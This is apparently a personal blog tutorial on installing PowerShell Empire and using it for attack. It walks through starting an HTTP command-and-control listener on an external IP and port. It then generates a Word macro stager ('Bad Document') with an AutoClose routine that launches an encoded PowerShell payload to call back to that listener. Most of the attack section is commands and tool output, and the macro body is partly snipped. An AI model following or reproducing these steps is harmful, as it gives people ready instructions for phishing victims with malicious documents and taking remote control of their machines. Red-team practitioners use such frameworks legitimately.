 ```yaml
---
title: Powershell Empire 
date: 2021-04-02T18:47:08+05:30
lastmod: 2021-04-02T18:47:08+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://anir0y.in
cover: /img/cover.jpg
categories:
  - installation
  - Hacking
tags:
  - Empire

---
```


# Prereq

## install pip3 (python Package installer)

```bash
sudo apt install python3-pip -y 
```

## Install Poetry 
```
sudo pip3 install poetry
```

## install Git 

```bash 
sudo apt install git -y 
```

## Install Powershell - Empire
```bash 
git clone --recursive https://github.com/BC-SECURITY/Empire.git
cd Empire
sudo ./setup/install.sh
sudo poetry install
sudo poetry run python empire
```

---
# Hacking 

## generate a listener (http)

```bash 
(Empire) > uselistener http
(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  Name              True        http                             Name for the listener.
  Host              True        http://10.128.0.15               Hostname/IP for staging.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True                                         Port for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  [snip]
  ```

change the IP & port 

```bash 
(Empire: listeners/http) > set Host 34.xx.xx.xx
(Empire: listeners/http) > set Port 9001
```
finally execute to start listening 
```bash 
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
```

## Payload (Macro for Bad Document)

```bash 
(Empire) > usestager windows/macro
(Empire: stager/windows/macro) > info

Name: Macro
...[snip]...

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  Language         True        powershell        Language of the stager to generate.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
  OutFile          False                         File to output launcher to, otherwise
                                                 displayed on the screen

... [snip]  ...                                            
```

set the listener value here

``` 
(Empire: stager/windows/macro) > set Listener http
(Empire: stager/windows/macro) > execute
Sub AutoClose()
	db
End Sub

Public Function db() As Variant
[snip]
```


## Put Macro in Word File. 